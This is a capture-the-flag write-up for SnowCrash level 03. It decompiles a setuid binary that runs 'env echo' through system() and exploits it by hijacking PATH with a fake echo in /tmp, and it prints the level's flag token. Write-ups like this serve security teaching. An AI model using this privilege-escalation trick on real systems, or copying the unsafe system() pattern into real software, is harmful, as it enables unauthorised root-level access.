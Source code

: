 # Level 03

Level 3 contains a setuid binary on the home folder, running it echoes 'Exploit me'

```bash
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped

level03@SnowCrash:~$ ./level03
Exploit me
```

Let's copy it to our machine and reverse it, opening the binary in Binary Ninja, we can see it's a simple program that sets uid to the the user flag03 and executes the command `echo` with the current environment:

```c
080484a4  int32_t main(int32_t argc, char** argv, char** envp)
080484ad      gid_t eax = getegid()
080484b6      uid_t eax_1 = geteuid()
080484d6      setresgid(rgid: eax, egid: eax, sgid: eax)
080484f2      setresuid(ruid: eax_1, euid: eax_1, suid: eax_1)
08048504      return system(line: "/usr/bin/env echo Exploit me")
```

This means that we can control the environment variables and execute arbitrary commands through path hijacking, to exploit this vulnerability we simply creates an executable called `echo` with an arbitrary command and add it to the path before running the binary, this way the binary will execute our `echo` instead of the real one.

```bash
level03@SnowCrash:~$ echo 'getflag' > /tmp/echo && chmod +x /tmp/echo && export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

and we got the token !
